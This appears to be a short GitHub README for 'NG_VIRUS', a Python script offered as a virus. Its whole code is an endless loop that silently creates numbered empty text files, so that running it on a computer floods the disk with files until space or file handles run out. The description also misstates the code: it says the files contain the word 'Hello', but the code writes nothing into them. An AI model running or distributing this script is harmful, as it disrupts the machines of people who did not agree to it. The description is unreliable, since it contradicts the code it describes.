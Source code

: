 # NG_VIRUS
NG_VIRUS is very small in the code,but if you run NG_VIRUS on a computer, it will imperceptibly create a lot of txt documents with the word "Hello".If you want to change the document name, just run python and change the word "Hello".Any other word.
i =1
while True:
	i+=1
	f=open("hello"+str(i)+".txt","w")
